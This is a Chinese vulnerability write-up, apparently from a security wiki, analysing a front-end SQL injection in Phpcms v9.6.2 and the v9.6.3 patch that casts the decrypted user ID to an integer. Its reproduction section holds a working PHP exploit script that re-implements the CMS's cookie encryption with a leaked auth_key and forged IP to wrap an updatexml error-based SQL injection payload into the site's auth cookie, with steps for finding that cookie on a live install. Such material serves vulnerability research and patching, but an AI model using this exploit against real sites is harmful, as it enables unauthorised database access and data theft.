Phpcms v9.6.2 前台sql注入
=========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms v9.6.2

三、复现过程
------------

### 漏洞分析

这个版本的的注入，是建立在任意文件读取漏洞存在的情况下才可利用。通过任意文件读取漏洞获得加解密的
**key** 值，我们可以用这个 **key** 加密我们的 **SQL注入payload**
。由于程序对解密后的数据并未过滤，最终导致漏洞发生。严格上来讲
**v9.6.2** 版本的注入只能在 **windows**
上利用，具体原因在上面的任意文件读取漏洞分析时也说了。下面我们来具体分析一下这个漏洞。

漏洞文件位于 **phpcms/modules/member/classes/foreground.class.php**
，代码如下图。我们可以明显看到下图第33行，程序直接将解密后的数据未经过滤直接带入查询。而待解密数据
**\$phpcms\_auth** 和解密秘钥 **\$auth\_key** 均可构造。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId25.png)

我们先来看一下待解密数据 **\$phpcms\_auth**
如何构造。从下图中，可以看出程序将从 **cookie** 中的 **xxx\_auth**
字段经过 **sys\_auth** 函数解密后，返回给了 **\$phpcms\_auth**
，而默认情况下使用 **pc\_base::load\_config(\'system\', \'auth\_key\')**
作为加解密的 **key** 值。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId26.png)

而 **pc\_base::load\_config(\'system\', \'auth\_key\')**
的值在网站搭建好后，会存储在 **caches/configs/system.php**
中，我们可以通过任意文件读取来获得这个值。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId27.png)

现在 **\$phpcms\_auth** 已经搞定了，我们再来看看 **\$auth\_key =
get\_auth\_key(\'login\')** 如何构造，跟进 **get\_auth\_key**
的代码。我们可以看到 **\$auth\_key** 由
**\$prefix、pc\_base::load\_config(\'system\',\'auth\_key\')、ip()**
三个元素决定。前两个都是已知的，而第三个获取用户IP的函数存在IP伪造的问题，也可以是固定的。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId28.png)

所以 **get\_auth\_key(\'login\')**
的值也是我们可以构造的，剩下的事情只要我们将 **payload**
传给加密函数加密两次即可。我们最后再来看一下 **PHPCMS v9.6.3**
中是如何修复这个漏洞的，补丁如下：

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId29.png)

可以明显看到，补丁将解密后获得的 **\$userid** 进行了强转。

### 漏洞复现

分析完毕后得到大致流程：

解密操作：get\_cookie('auth')
得到\$phpcms\_auth，get\_auth\_key('login')得到\$auth\_key，然后sys\_auth(\$phpcms\_auth,
'DECODE', \$auth\_key)。

再通俗些的话：sys\_auth方法对cookie中包含auth的参数名对应的密文值，先使用配置文件中的auth\_key进行sys\_auth得到的值作为第一次解密后的值，然后使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，第一次解密后的值与新的key最后传入sys\_auth进行解密得到最终的明文。

反之加密方法便是：

使用配置文件中的auth\_key的值与客户端请求的IP拼接做MD5加密的值做为新的key，使用新的key与明文进行sys\_auth得到的值作为第一次加密的密文，然后使用配置文件中的auth\_key作为key与第一次加密的密文传入sys\_auth得到的值作为最终的密文，也就是cookie字段名称中包含auth的参数对应的值。

**如下是将各个文件中的加密解密方法抓取出来稍作修改，在本地进行payload的加解密操作：**

    <?php
    function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0,$auth_key='7G6idVtMAxhgFVu5vGp1') {
        $ckey_length = 4;
        $key = md5($key != '' ? $key : $auth_key);
        $keya = md5(substr($key, 0, 16));
        $keyb = md5(substr($key, 16, 16));
        $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
        $cryptkey = $keya.md5($keya.$keyc);
        $key_length = strlen($cryptkey);

        $string = $operation == 'DECODE' ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/')) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
        $string_length = strlen($string);

        $result = '';
        $box = range(0, 255);

        $rndkey = array();
        for($i = 0; $i <= 255; $i++) {
            $rndkey[$i] = ord($cryptkey[$i % $key_length]);
        }

        for($j = $i = 0; $i < 256; $i++) {
            $j = ($j + $box[$i] + $rndkey[$i]) % 256;
            $tmp = $box[$i];
            $box[$i] = $box[$j];
            $box[$j] = $tmp;
        }

        for($a = $j = $i = 0; $i < $string_length; $i++) {
            $a = ($a + 1) % 256;
            $j = ($j + $box[$a]) % 256;
            $tmp = $box[$a];
            $box[$a] = $box[$j];
            $box[$j] = $tmp;
            $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
        }

        if($operation == 'DECODE') {
            if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
                return substr($result, 26);
            } else {

                return '';
            }
        } else {
            return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
        }
    }

    function get_auth_key($prefix,$suffix="",$ip='127.0.0.1',$auth_key='7G6idVtMAxhgFVu5vGp1') {
        if($prefix=='login'){
            $pc_auth_key = md5($auth_key.$ip);
        }else if($prefix=='email'){
            $pc_auth_key = md5($auth_key);
        }else{
            $pc_auth_key = md5($auth_key.$suffix);
        }
        $authkey = md5($prefix.$pc_auth_key);
        return $authkey;
    }

    //解密过程
    //step 1
    $encryption_str = '6fc7TB1Y1nIRK5HunMc5HAUw5WkBLLuQGBiOISDhJM4d8N8WHHOvqMaUSyWrZdVdH046oGv_e_Ir6Q157UV-yT5Aksuc_h_4RfwZqsEwDHfQckv4SReOiYFxm083X7Tydcw-nUy8l3nP-ouUGl59sN4';
    $operation1 = 'DECODE';
    $decryption_step1 = (sys_auth($encryption_str, $operation1));
    echo 'decryption_step1 result:'.$decryption_step1."\n";

    //step 2
    $decryption_step2 = $decryption_step1;
    $auth_key = get_auth_key('login');
    echo 'decryption_step2 result:'.sys_auth($decryption_step2, 'DECODE', $auth_key)."\n";

    echo '-----------------------'."\n" ;


    //加密过程
    //step 1
    $clear_str = "1'or updatexml(1,concat(0x7e,(select user()),0x7e),1)  or '1    f867fef04bd76d95abe01300951ca336";
    $operation2 = 'ENCODE';
    $encryption_step1 = sys_auth($clear_str, 'ENCODE', $auth_key);
    echo 'encryption_step1 result:'.$encryption_step1."\n";

    //step 2
    $encryption_step2 = (sys_auth($encryption_step1, $operation2));
    echo 'encryption_step2 result:'.$encryption_step2;

使用上面的代码可以进行解密和加密，下图中decryption\_step2
result的值便是对payload进行解密的最终结果，encryption\_step2的值是对payload进行加密的最终结果。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId31.png)

最终利用的现象，cookie中的YDVIB\_auth参数名称，前缀是安装时候生成的可能不一样，可以在配置文件中找到对应的值，可以先注册普通用户然后看服务端下发的cookie中字段名称中xxx\_auth的参数名称，便是存在漏洞的位置。

![](/Users/aresx/Documents/VulWiki/.resource/Phpcmsv9.6.2前台sql注入/media/rId32.png)

参考链接
--------

> <https://www.freebuf.com/column/158352.html>
>
> <https://xz.aliyun.com/t/5731>
